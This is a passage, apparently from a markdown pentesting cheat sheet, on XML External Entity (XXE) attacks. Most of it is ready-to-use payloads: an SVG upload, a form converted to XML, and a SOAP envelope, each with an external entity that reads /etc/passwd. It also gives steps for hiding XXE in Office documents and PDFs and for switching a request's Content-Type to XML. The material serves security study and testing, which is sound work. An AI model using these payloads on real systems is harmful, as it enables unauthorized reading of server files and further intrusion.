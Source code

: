     - **XXE via file upload**
      - SVG image upload:
        ```xml
        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
        <svg xmlns="http://www.w3.org/2000/svg">
          <text font-size="15" x="0" y="16">&xxe;</text>
        </svg>
        ```
      - Office documents (DOCX, XLSX, PPTX):
        - These are ZIP archives containing XML files
        - Modify relevant XML files to include XXE payloads
        - Repackage and upload
      - PDF manipulation:
        - Some PDF processing tools parse XML components
        - Include XXE payload in XML portions
    
    - **XXE via modified content type**
      - Change Content-Type to XML-based:
        ```
        Content-Type: application/x-www-form-urlencoded
        ```
        to
        ```
        Content-Type: application/xml
        ```
        or
        ```
        Content-Type: text/xml
        ```
      - Convert form parameters to XML structure:
        ```
        username=admin&password=password
        ```
        to
        ```xml
        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
        <root>
          <username>admin</username>
          <password>&xxe;</password>
        </root>
        ```
      - Some frameworks automatically parse XML content types
  
  - **XXE in specific technologies**
    
    - **SOAP-based web services**
      - SOAP heavily uses XML for message format
      - Vulnerable pattern:
        ```xml
        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE soap:Envelope [
          <!ENTITY xxe SYSTEM "file:///etc/passwd">
        ]>
        <soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
          <soap:Body>
            <ns:operation xmlns:ns="namespace">
              <ns:param>&xxe;</ns:param>
            </ns:operation>
          </soap:Body>
        </soap:Envelope>
        ```
    